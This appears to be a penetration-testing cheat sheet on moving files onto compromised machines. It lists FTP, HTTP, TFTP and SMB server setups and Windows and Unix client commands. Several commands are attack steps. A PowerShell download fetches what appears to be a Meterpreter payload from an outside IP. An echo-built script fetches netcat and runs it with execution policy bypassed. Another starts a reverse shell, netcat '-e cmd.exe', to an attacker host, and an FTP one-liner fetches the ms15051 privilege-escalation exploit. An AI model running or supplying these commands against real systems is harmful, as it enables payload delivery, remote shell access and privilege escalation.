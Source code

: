 # File transfert


## nc

/usr/share/windows-binaries/nc.exe


## Server ftp

```
pip install pyftpdlib
python -m pyftpdlib -p 21
```


## Server http

  $ php -S localhost:8000 -t foo/
  
  
## Server tftp

service atftpd start
Complicated to configure...

Metasploit, like with FTP, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT

## SMB server

Enter smbserver.py, part of the Impacket project [https://github.com/SecureAuthCorp/impacket] 
[tools/impacket-impacket_0_9_19.zip]
To launch a simple SMB server on port 445, just specify a share name and the path you want to share:

````
# python smbserver.py ROPNOP /root/shells
````


## Client Unix


wget, fetch, ftp, tftp



## Client windows

### http

````
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
````

````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')"
````

````
echo $storageDir = $pwd > upload.ps1
echo $url = "http://192.168.168.169/nc.exe" >> upload.ps1
echo $file = "$storageDir\nc.exe" >> upload.ps1
echo (New-Object System.Net.WebClient).DownloadFile($url,$file) >> upload.ps1
powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File upload.ps1
````

Run reverse netcat connection and connect to attacker:
````
echo $secpasswd = ConvertTo-SecureString "myPassword1" -AsPlainText -Force >script.ps1
echo $mycreds = New-Object System.Management.Automation.PSCredential ("admin", $secpasswd) >>  script.ps1
echo $computer = "User-PC" >> script.ps1
echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.169 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> script.ps1
powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File script.ps1
````


### ftp

echo open 10.10.14.6>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get ms15051.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt&ftp -s:ftp_commands.txt


### tftp

tftp -i A.B.C.D GET filename

New version of windows: activate it : 
pkgmgr /iu:"TFTP" 


### smb

smbclient -L 10.10.14.30 --no-pass
net view \\10.10.14.30
dir \\10.10.13.30\ROPNOP
copy  \\10.10.13.30\ROPNOP\file.exe .



